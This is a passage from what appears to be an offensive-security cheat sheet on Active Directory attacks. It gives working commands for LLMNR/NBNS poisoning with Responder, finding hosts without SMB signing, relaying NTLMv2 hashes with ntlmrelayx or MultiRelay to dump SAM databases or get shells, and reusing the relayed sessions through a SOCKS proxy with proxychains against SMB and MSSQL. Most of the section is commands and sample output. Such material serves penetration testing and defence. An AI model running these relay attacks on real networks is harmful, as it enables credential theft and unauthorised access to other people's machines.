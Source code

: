 It is required here to relay to LDAP over TLS because creating accounts is not allowed over an unencrypted connection.

## SMB Signing Disabled and IPv4

If a machine has `SMB signing`:`disabled`, it is possible to use Responder with Multirelay.py script to perform an `NTLMv2 hashes relay` and get a shell access on the machine. Also called **LLMNR/NBNS Poisoning**

1. Open the Responder.conf file and set the value of `SMB` and `HTTP` to `Off`.

    ```powershell
    [Responder Core]
    ; Servers to start
    ...
    SMB = Off     # Turn this off
    HTTP = Off    # Turn this off
    ```

2. Run `python  RunFinger.py -i IP_Range` to detect machine with `SMB signing`:`disabled`.
3. Run `python Responder.py -I <interface_card>`
4. Use a relay tool such as `ntlmrelayx` or `MultiRelay`
    * `impacket-ntlmrelayx -tf targets.txt` to dump the SAM database of the targets in the list.
    * `python MultiRelay.py -t <target_machine_IP> -u ALL`
5. ntlmrelayx can also act as a SOCK proxy with every compromised sessions.

    ```powershell
    $ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
    [*] Servers started, waiting for connections
    Type help for list of commands
    ntlmrelayx> socks
    Protocol  Target          Username                  Port
    --------  --------------  ------------------------  ----
    MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
    SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
    MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

    # You might need to select a target with "-t"
    # smb://, mssql://, http://, https://, imap://, imaps://, ldap://, ldaps:// and smtp://
    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

    # the socks proxy can then be used with your Impacket tools or netexec
    $ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
    $ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
    $ proxychains netexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
    ```
